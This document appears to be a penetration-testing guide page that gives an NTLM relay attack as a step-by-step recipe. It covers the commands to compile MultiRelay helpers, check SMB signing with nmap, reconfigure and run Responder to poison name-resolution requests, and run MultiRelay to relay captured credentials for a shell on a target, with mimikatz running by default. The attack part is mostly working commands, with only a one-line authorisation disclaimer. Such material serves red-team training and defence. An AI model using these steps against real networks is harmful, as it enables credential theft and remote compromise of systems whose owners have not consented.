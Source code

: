 # NTLM relay attack

## Attack tree

```text
1 Set up MultiRelay
2 Run responder
3 Wait for it
```

## Examples

1. Install dependencies and compile some artifacts used by Multirelay:

```text
# apt install gcc-mingw-w64-x86-64 python-crypto
# cd /usr/share/responder/tools/
# x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv                                                                                                         
# x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode
# pip install pycryptodome
```

2. Test with:

```text
# cd /usr/share/responder/tools
# python3 MultiRelay.py
```

3. For this attack to work with SMB, SMB signing has to be disabled on the target. Usually it is disabled, but this can be
checked using the nmap `smb-security-mode` script:

```text
# nmap -p445 --script=smb-security-mode <target IP address>
```

4. The MultiRelay script uses HTTP and SMB ports. To prevent conflicts, turn these servers off in the 
`/usr/share/responder/responder.conf` file.

```text
SMB = Off
HTTP = Off
```

5. If SMB signing is disabled, run MultiRelay with (`-t`) to specify the target and (`-u`) to specify users to 
relay (forward) to. Choose selectively to create minimal noise in the network.

```text
# python3 MultiRelay.py -t <target IP address> -u ALL -d
```

6. In another terminal, use `ifconfig` to find NIC <interface> of attack machine for running responder.
7. Run responder:

```text
# responder -I <interface> -rv
```
8. Wait for a connection: Hopefully, someone mistypes trying to open a shared drive (a drive that does not exist). 
Responder intervenes and poisons the request. SMB relaying is now setup in `MultiRelay.py`, and the credential is 
forwarded to the <target IP address> and we have gained a shell on it.

## Notes

If it is possible to poison responses but not possible to crack the hash, an option is to try to relay. A relay or 
forwarder receives valid authentication and then forwards that request to another server/system and 
tries to authenticate to that server/system by using the valid credentials received.

* Activity can vary wildly depending on the network. 
* Inactive networks can take days or weeks before a connection can be hijacked. 
* Logs are created in `/usr/share/responder/logs` where you can look past sessions captured. 
* MultiRelay runs mimikatz by default and may be easily flagged by antivirus products. 
* The attacks described here should only be performed when explicitly authorised to do so. 

## Tools

* [Responder](https://github.com/lgandx/Responder)
* [smb-security-mode](https://nmap.org/nsedoc/scripts/smb-security-mode.html)